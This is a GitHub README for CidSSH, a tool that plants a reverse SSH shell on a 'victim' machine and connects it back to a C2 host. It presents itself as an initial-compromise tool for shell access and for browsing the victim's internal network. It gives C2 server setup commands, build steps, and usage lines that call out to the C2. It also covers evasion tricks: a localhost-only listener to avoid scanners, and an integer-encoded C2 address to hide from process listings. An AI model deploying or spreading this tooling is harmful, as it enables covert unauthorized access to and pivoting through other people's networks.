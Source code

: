 # Cid SSH
![alt text](http://equestrianstatue.org/wp-content/uploads/2016/04/Spain-Burgos-El-Cid-4-525x394.jpg)

Let's face it, there is no better shell than SSH. It just not only provides a rich encrypted shell communication but it can be used to create a socks proxy to browse the internal network of a system.

**CidSSH** is a statically compiled tool (no dependencies needed) that can be used to create an SSH server and a SSH client within just one binary. It will firstly, create RSA certificates, spin up an SSH server (listening in `localhost` and by default on port 2222),and finally create a reverse SSH tunnel with a C2 host specify by command lone. Due to the fact that the SSH server listens at `localhost`, external scanners won't detect it. 

This tool can be used as a fast initial compromise tool that can be used not only as a shell but also to browse the internal network of the victim. 

Windows systems lack of a proper TTY but thanks to [this](https://blogs.msdn.microsoft.com/commandline/2018/08/02/windows-command-line-introducing-the-windows-pseudo-console-conpty/) we can in recent Windows versions get a fully functional TTY. In the case that the target system does not support `CreatePseudoConsole` it will downgrade to a simple, not interactive shell.


## Setup instructions
### C2 server
We need to properly configure the SSH server running at the C2 so we don't get hacked.

Run all of these commands:

```
sudo useradd anonymous
echo anonymous:U6aMy0wojraho | sudo chpasswd -e
sudo usermod -s /bin/false anonymous # change /bin/false to /path/to/Cid-Controller to use Cid-Controller
```

Allow blank passwords for SSH sessions for the `anonymous` user and restrict `anonymous` user to allow only reverse port forwarding:

```
sudo cat <<EOT >> /etc/ssh/sshd_config
PermitEmptyPasswords yes

Match User anonymous
   AllowTcpForwarding remote
   X11Forwarding no
   PermitTunnel no
   GatewayPorts no
   AllowAgentForwarding no
   AllowStreamLocalForwarding no
   ForceCommand echo 'This is a disabled account'
   ClientAliveInterval 120
   ClientAliveCountMax 3
EOT
```

Restart sshd:
```sudo systemctl restart ssh```

### Prebuilt binaries
You can just use the prebuilt binaries that are in [Release](https://github.com/RedRangerz/Cid-SSH/releases/tag/v1.0). They are ready to roll.

If you want to compile from source keep reading below.

## Compilation

### Compilation on Windows
You can use the `CMakeLists.txt` along with `CMake` to create a Visual Studio project.

To easy things installing dependencies you can use `vcpkg`:
```
# Install dependencies with vcpkg (static)
git clone https://github.com/Microsoft/vcpkg.git
cd vcpkg
bootstrap-vcpkg.bat
vcpkg install --triplet x86-windows-static boost-beast boost-asio boost-system libssh[core,openssl]

git submodule update --init --recursive
# Configure and compile project
cd Cid-SSH
cmake -S . -B build_ssh -G "Visual Studio 16 2019" -A x64 -DWITH_WEBSOCKETS=OFF -DCMAKE_TOOLCHAIN_FILE=C:/Users/alberto.garcia/Documents/code/vcpkg/scripts/buildsystems/vcpkg.cmake -DVCPKG_TARGET_TRIPLET=x86-windows-static ..
cmake --build_ssh . --config Release
cmake -S . -B build_wss -G "Visual Studio 16 2019" -A x64 -DWITH_WEBSOCKETS=ON -DCMAKE_TOOLCHAIN_FILE=C:/Users/alberto.garcia/Documents/code/vcpkg/scripts/buildsystems/vcpkg.cmake -DVCPKG_TARGET_TRIPLET=x86-windows-static ..
cmake --build_wss . --config Release
```


### Compilation on Linux
CidSSH is compiled statically for linux using musl (a replacement for libc) from an Alpine distribution `x86_64`. 

There is a `build.sh` command that can be used to build everything. Just do `sh build.sh` from an Alpine system or docker container.

### Compilation on MacOs
There is a `build.sh` command that can be used to build everything. Just do `sh build.sh`

## Using it

Defaults: user is `anonymous` and default `LOCAL_SSH_SERVER_PORT` is 2222

Syntaxis:

`Cid-SSH.exe [user@]C2_hostname [LOCAL_SSH_SERVER_PORT]`

Examples:
```
Cid-SSH.exe 192.168.15.135
Cid-SSH.exe user@192.168.15.135 1234
Cid-SSH.exe user@192.168.15.135
```

You could also specify the IP address as an integer so it's not that obvious if `ps` is run:
```
Cid-SSH.exe -t 3232239495
```
Page to do the conversion: http://www.aboutmyip.com/AboutMyXApp/IP2Integer.jsp

In the C2:
```
sudo netstat -ptan | grep sshd | grep LISTEN | grep anon
# Get the port number, replace the XXXXX 
echo "" > ~/.ssh/known_hosts && sshpass -p pwd ssh user@localhost -p XXXXX -oStrictHostKeyChecking=no -D 0.0.0.0:8888
# Extra: One-liner for two previous commands:
echo "" > ~/.ssh/known_hosts && sshpass -p pwd ssh user@localhost -p `sudo netstat -ptan | grep sshd | grep LISTEN | grep anon | cut -d : -f2 | cut -d" " -f1` -oStrictHostKeyChecking=no -D 0.0.0.0:8888
```
